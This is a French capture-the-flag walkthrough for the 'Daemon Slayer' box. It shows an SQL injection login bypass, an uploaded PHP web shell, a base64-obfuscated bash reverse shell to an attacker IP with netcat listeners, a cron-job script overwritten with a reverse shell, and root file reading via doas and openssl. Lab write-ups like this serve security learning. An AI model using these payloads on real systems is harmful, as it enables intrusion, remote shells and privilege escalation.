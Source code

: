 # Daemon Slayer - CTF Walkthrough

## Sommaire

1. [Accès au site web admin](#1-accès-au-site-web-admin)
2. [SQL Injection pour se connecter](#2-sql-injection-pour-se-connecter)
3. [Reverse Shell via Upload d'image](#3-reverse-shell-via-upload-dimage)
4. [Escalade via Cron Job](#4-escalade-via-cron-job)
5. [Escalade Root avec doas + OpenSSL](#5-escalade-root-avec-doas--openssl)

---

## 1. Accès au site web admin

On visite :

```
http://<BOX_IP>:445/upper/admin
```

## 2. SQL Injection pour se connecter

Login Bypass via SQLi :

```
admin' -- ' OR 1=1 --
```

On accède au dashboard administrateur.

## 3. Reverse Shell via Upload d'image

On remplace une image uploadée par un fichier `shell.php` :


``` php
<?php system($_GET['cmd']); ?>
```

On peut ensuite envoyer n'importe quel commande grace au `GET` donc on envoie un reverse shell :


```bash
echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC45Mi41OS85MDAyIDA+JjE=" | base64 -d | bash
```

Décodé :

```bash
sh -i >& /dev/tcp/10.8.92.59/9002 0>&1
```

On écoute sur notre machine :

```bash
nc -lvnp 9002
```

Et on obtient un shell.


🎉 **1er Flag obtenu**

## 4. Escalade via Cron Job

On observe un cron job exécuté chaque minute par l'utilisateur `muzan` qui appelle un fichier `backup.sh`.

On supprime le fichier :

```bash
rm /home/muzan/backup.sh
```

Puis on le remplace avec notre propre payload reverse shell.

```bash
echo "bash -i >& /dev/tcp/10.8.92.59/9003 0>&1" > /home/muzan/backup.sh
chmod +x /home/muzan/backup.sh
```

Et on écoute :

```bash
nc -lvnp 9003
```

Shell en tant que `muzan` ✅

## 5. Escalade Root avec doas + OpenSSL

En tant que muzan, on vérifie les droits `doas` :

```bash
doas -l
```

Résultat : `muzan` peut utiliser `openssl` en tant que root sans mot de passe.

On utilise la commande suivante pour lire le flag root :

```bash
doas -u root openssl enc -in /root/root.txt
```

Cela permet de lire le contenu du fichier root flag (si chiffré, il faudra adapter avec le bon déchiffrement selon le contexte).

---

🔥 **Root obtenu sur Daemon Slayer !**


🎉 **2ème Flag obtenu**
Les démons n’avaient qu’à bien se tenir 😈
